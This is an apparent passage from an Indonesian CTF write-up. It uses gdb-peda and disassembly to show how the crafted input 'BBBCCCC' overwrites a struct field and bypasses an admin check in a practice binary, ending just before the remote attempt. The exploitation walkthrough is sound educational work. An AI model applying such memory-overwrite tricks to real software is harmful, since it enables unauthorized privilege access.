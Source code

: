 selanjutnya nilai `rax` akan diambil 8 byte dari alamat `rip+0x2ca3` sama seperti tahapan sebelumnya `0x401426+0x2ca3 = 0x4040c9` dan dilanjutkan dengan nilai `eax` 4 byte yang diambil dari alamat `rax` yang berarti `rax+0x24=0x4052c4` , `QWORD = 8 byte, DWORD=4 byte` jika di cek dengan gdb

```bash
gdb-peda$ x/8gx $rip+0x2ca3
0x4040c9:       0xa000000000000000      0xc000000000004052
0x4040d9 <data_id+1>:   0xa400000000004052      0x0000000000004052
0x4040e9:       0x0000000000000000      0x0000000000000000
0x4040f9:       0x0000000000000000      0x0000000000000000
...
...
gdb-peda$ x/4gx $rax+0x24
0x4052c4:       0x0000000a43434343      0x0000000000000000
0x4052d4:       0x00020d3100000000      0x0000000000000000
...
gdb-peda$ x/s 0x4052c4
0x4052c4:       "CCCC\n"
```

dari hasi pemeriksaan ternyata nilai alamat `$rax+0x24=CCCC` nilai ini didapat dari menginputkan niali ID=`BBBCCCC` pada saat aplikasi dijalankan. jadinya nilai `eax` tidak akan bernilai `0=false`, seharusnya kondisi  `test   eax,eax` pada `main+606` akan terpenuhi.

```bash
   0x401420 <main+590>: je     0x4014c3 <main+753>
   0x401426 <main+596>: mov    rax,QWORD PTR [rip+0x2ca3]        # 0x4040d0 <mahasiswa>
   0x40142d <main+603>: mov    eax,DWORD PTR [rax+0x24]
=> 0x401430 <main+606>: test   eax,eax
   0x401432 <main+608>: je     0x4014a6 <main+724>
   0x401434 <main+610>: lea    rdi,[rip+0xd15]        # 0x402150
   0x40143b <main+617>: call   0x401050 <puts@plt>
   0x401440 <main+622>: lea    rsi,[rip+0xd61]        # 0x4021a8
...
...
gdb-peda$ x/x $eax
0x43434343:     Cannot access memory at address 0x43434343
```
dibuktikan jika nilai `eax` sekarang bernilai `0x43434343=CCCC` jika eksekusi aplikasi dilanjutkan hasilnya adalah

```bash
gdb-peda$ c
Continuing.

==============================
= AKSES ADMIN DITERIMA =
==============================
File flag nya tidak ada! Kontak developer CTFR kami
[Inferior 1 (process 4421) exited normally]
Warning: not running
gdb-peda$ 
```

jika di coba di remote aplikasinya
